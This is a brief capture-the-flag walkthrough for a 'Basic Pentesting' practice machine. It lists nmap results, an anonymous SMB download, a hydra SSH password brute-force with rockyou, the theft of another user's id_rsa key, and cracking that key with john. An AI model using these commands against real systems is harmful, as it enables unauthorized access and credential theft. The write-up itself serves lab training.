




# Basic Pentesting
> This is a machine that allows you to practise web app hacking and privilege escalation

# Start
# Recon
## Nmap
[nmap](nmap.txt)  
Open ports:
```
22 - ssh
80 - web (Apache httpd 2.4.18 ((Ubuntu)))
139 - smb
445 - smb
8009 - ajp13 (Apache Jserv (Protocol v1.3))
8080 - Apache Tomcat 9.0.7 default page
```

## Web
  
**Source**:  


## Dirsearch
  
We got an **interesting dir**

## Enum4linux
[enum4linux](enum4linux.txt)  

- Anonymous login on smb

## Smb
```
smbclient \\\\$IP\\Anonymous

mget staff.txt
```

We got the 2 users!

# SSH
## Cracking ssh pw
```
hydra -t 4 -l <user> -P ~/tools/wordlists/rockyou.txt ssh://$IP
```
  
We got the pw!

## Getting in
```
ssh <user>@$IP
```
Just grab the other user2's *id_rsa* from `/home/<user2>/.ssh/id_rsa`  
We notice that this `id_rsa` is **encrypted** so we have to crack it!

### Cracking the id_rsa
We use `john` here...
```
ssh2john id_rsa > hash
john --wordlist=rockyou.txt hash
```
***We got the pw***

## Just ssh in with the id_rsa + the pw we got
```
ssh -i id_rsa <user2>@$IP
```

# Got the final flag from `~/pass.bak`
